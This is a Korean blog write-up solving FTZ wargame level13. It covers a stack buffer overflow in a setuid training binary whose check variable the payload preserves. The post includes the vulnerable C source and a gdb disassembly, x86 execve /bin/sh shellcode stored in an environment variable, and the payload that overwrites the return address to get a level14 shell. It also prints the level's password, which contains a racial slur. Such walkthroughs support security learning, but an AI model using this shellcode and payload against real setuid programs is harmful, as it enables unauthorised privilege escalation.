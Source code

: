 ```yaml
---
title: "[FTZ] level13 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level13 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level13 풀이
{: .notice--warning}


# 문제

계정 : level13/have no clue

**hint**
```c
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }  
}
```

# 풀이

이번에는 코드에서 bof를 탐지하기 위해서 중간에 변수 i 를 두어서 값이 변경 되었는지를 체크하고 있습니다.

스택을 대략적으로 표현하면 다음과 같습니다.

```
ret 
ebp 
i = 0x1234567
buf[1024]
```

buf를 통해서 ret 주소를 덮는 중간 경로에 i 값이 존재하기 때문에 이 부분을 주의해서 ret 주소를 덮어쓰면 됩니다.

먼저 gdb로 메모리 구조를 분석하겠습니다.

```sh
[level13@ftz level13]$ gdb -q attackme
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080484a0 <main+0>:    push   ebp
0x080484a1 <main+1>:    mov    ebp,esp
0x080484a3 <main+3>:    sub    esp,0x418   
0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12],0x1234567   //i의 주소는 ebp-12
0x080484b0 <main+16>:   sub    esp,0x8
0x080484b3 <main+19>:   push   0xc16
0x080484b8 <main+24>:   push   0xc16
0x080484bd <main+29>:   call   0x8048370 <setreuid>
0x080484c2 <main+34>:   add    esp,0x10
0x080484c5 <main+37>:   cmp    DWORD PTR [ebp+8],0x1
0x080484c9 <main+41>:   jle    0x80484e5 <main+69>
0x080484cb <main+43>:   sub    esp,0x8
0x080484ce <main+46>:   mov    eax,DWORD PTR [ebp+12]
0x080484d1 <main+49>:   add    eax,0x4
0x080484d4 <main+52>:   push   DWORD PTR [eax]
0x080484d6 <main+54>:   lea    eax,[ebp-1048]     //buf의 시작 주소는 ebp-1048
0x080484dc <main+60>:   push   eax
0x080484dd <main+61>:   call   0x8048390 <strcpy>
0x080484e2 <main+66>:   add    esp,0x10
0x080484e5 <main+69>:   cmp    DWORD PTR [ebp-12],0x1234567
0x080484ec <main+76>:   je     0x804850d <main+109>
0x080484ee <main+78>:   sub    esp,0xc
0x080484f1 <main+81>:   push   0x80485a0
0x080484f6 <main+86>:   call   0x8048360 <printf>
0x080484fb <main+91>:   add    esp,0x10
0x080484fe <main+94>:   sub    esp,0x8
0x08048501 <main+97>:   push   0xb
0x08048503 <main+99>:   push   0x0
0x08048505 <main+101>:  call   0x8048380 <kill>
0x0804850a <main+106>:  add    esp,0x10
0x0804850d <main+109>:  leave
0x0804850e <main+110>:  ret
0x0804850f <main+111>:  nop
End of assembler dump.
```

위의 gdb 분석대로 스택을 그리면 다음과 같습니다.

```s
ret(4)
ebp(4)
dummy(8)   // ebp와 i 사이에 빈 공간이 있음
i (4 byte) // ebp - 12 위치
dummy(12)  // i 와 buf 사이에 빈 공간이 있음
buf[1024]  // ebp - 1048위치
```

메모리 구조가 그려졌으니, 쉘코드를 환경변수에 넣고 그 주소를 구하겠습니다.

```sh
[level13@ftz level13]$ export SHELLCODE=$(python -c'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
[level13@ftz level13]$
[level13@ftz level13]$ cd tmp
[level13@ftz tmp]$ echo 'int main(){printf("%p\n",getenv("SHELLCODE"));}' >> env.c
[level13@ftz tmp]$ gcc -o env env.c
[level13@ftz tmp]$ ./env
0xbffffc6d
```

마지막으로 다음과 같이 bof 취약점을 익스플로잇 합니다.

buf + dummy 를 더해서 1036바이트를 채워준다음, i의 값인 0x1234567을 넣어줍니다.

그리고 나머지 dummy + ebp를 합쳐서 12바이트를 채운 뒤에 ret 주소를 환경변수에 존재하는 쉘코드 주소로 덮어쓰는 것입니다.

```sh
[level13@ftz level13]$ ./attackme $(python -c 'print("A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x6d\xfc\xff\xbf" )')
sh-2.05b$ id
uid=3094(level14) gid=3093(level13) groups=3093(level13)
sh-2.05b$ my-pass
TERM environment variable not set.

Level14 Password is "what that nigga want?".

```

